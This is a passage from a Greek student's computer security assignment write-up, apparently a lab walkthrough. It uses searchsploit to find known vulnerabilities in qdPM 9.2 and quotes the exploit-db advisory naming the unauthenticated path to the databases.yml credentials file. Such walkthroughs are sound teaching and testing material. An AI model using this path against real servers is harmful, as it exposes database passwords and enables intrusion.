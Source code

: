 ````col

![450](UNI/Semester-9/ComputerSecurity/assignments/pasted-pic-assignment-working.png)

```


````

%% page breaker %%
<div style="page-break-after: always;"></div>


Και θα αξιοποιησουμε το εργαλειο `searchsploit` απο το πακετο `exploitdb` για να δουμε εαν το version αυτο εχει καποιο γνωστο vulnerability ή να κανουμε μια αναζητηση στο [exploit-db.com](https://www.exploit-db.com/exploits/50176) .

```bash
searchsploit qdPM 9.2 
```

<font color="#646a73">Output:</font>
```bash
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
qdPM 9.2 - Cross-site Request Forgery (CSRF)        | php/webapps/50854.txt
qdPM 9.2 - Password Exposure (Unauthenticated)      | php/webapps/50176.txt
---------------------------------------------------- ---------------------------------
Shellcodes: No Results
```




Ο webserver εχει ευπαθεια Password Exposure, και μπορουμε να δουμε λεπτομεριες με τις επομενες δυο εντολες, εφοσον εχουμε εγκαταστησει το εργαλειο `exploitdb` στο attacker συστημα μας:

```bash
cat /usr/share/exploitdb/exploits/php/webapps/50176.txt
```
ή 
```bash
searchsploit -x php/webapps/50176.txt
```

<font color="#646a73">Output:</font>
```bash
# Exploit Title: qdPM 9.2 - DB Connection String and Password Exposure (Unauthenticated)
# Date: 03/08/2021
# Exploit Author: Leon Trappett (thepcn3rd)
# Vendor Homepage: https://qdpm.net/
# Software Link: https://sourceforge.net/projects/qdpm/files/latest/download
# Version: 9.2
# Tested on: Ubuntu 20.04 Apache2 Server running PHP 7.4

The password and connection string for the database are stored in a yml file. To access the yml file you can go to http://<website>/core/config/databases.yml file and download.
```
